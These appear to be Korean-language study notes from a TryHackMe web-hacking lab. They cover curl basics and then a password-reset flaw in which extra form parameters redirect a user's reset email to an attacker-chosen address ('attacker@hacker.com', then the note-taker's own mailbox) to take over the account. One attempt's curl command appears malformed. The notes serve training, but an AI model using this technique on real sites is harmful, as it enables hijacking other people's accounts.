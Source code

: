 # curl 

curl is a command-line tool to transfer data to or from a server, using any of the supported protocols (HTTP, FTP, IMAP, POP3, SCP, SFTP, SMTP, TFTP, TELNET, LDAP, or FILE)

---

curl 
```
root@ip-10-10-41-144:~# curl http://10.10.140.126 
<!--
This page is temporary while we work on the new homepage @ /new-home-beta
-->
<!DOCTYPE html>
```

-v : verbose mode
```
root@ip-10-10-41-144:~# curl http://10.10.140.126 -v
* Rebuilt URL to: http://10.10.140.126/
*   Trying 10.10.140.126...
* TCP_NODELAY set
* Connected to 10.10.140.126 (10.10.140.126) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.140.126
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Tue, 19 Apr 2022 02:34:37 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-FLAG: THM{HEADER_FLAG}
< 
<!--
This page is temporary while we work on the new homepage @ /new-home-beta
-->
```
---


## 실습 

실습 사이트 
비번 변경 페이지 > 이메일 입력 > 이름 입력 > We'll send you a reset email to robert@acmeitsupport.thm

시도 1 
```
user@tryhackme$ curl 'http://10.10.3.25/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```
```
<p>We'll send you a reset email to <strong>robert@acmeitsupport.thm</strong></p>
```
시도 2 : 받는 메일을 바꿀 수 있는지 확인 
```
user@tryhackme$ curl 'http://10.10.3.25/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
```
<p>We'll send you a reset email to <strong>attacker@hacker.com</strong></p>
```
시도 3 
실습 홈페이지에서 회원가입 > kimbbang@customer.acmeitsupport.thm 메일 만들기

시도 4 : kimbbang@customer.acmeitsupport.thm로 비번 변경 메일 보내기 

```
user@tryhackme:~$ curl 'http://10.10.3.25/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&kimbbang@customer.acmeitsupport.thm'
```
시도 5 
kimbbang으로 로그인해서 회원 메일함을 확인하면 robert의 비번을 바꿀 수 있는 메일이 있음 


---
---

### Course
[TryHackMe - Introduction to Web Hacking](https://tryhackme.com/module/intro-to-web-hacking)    

### References
[geeksforgeeks - curl command in Linux with Examples](https://www.geeksforgeeks.org/curl-command-in-linux-with-examples/)   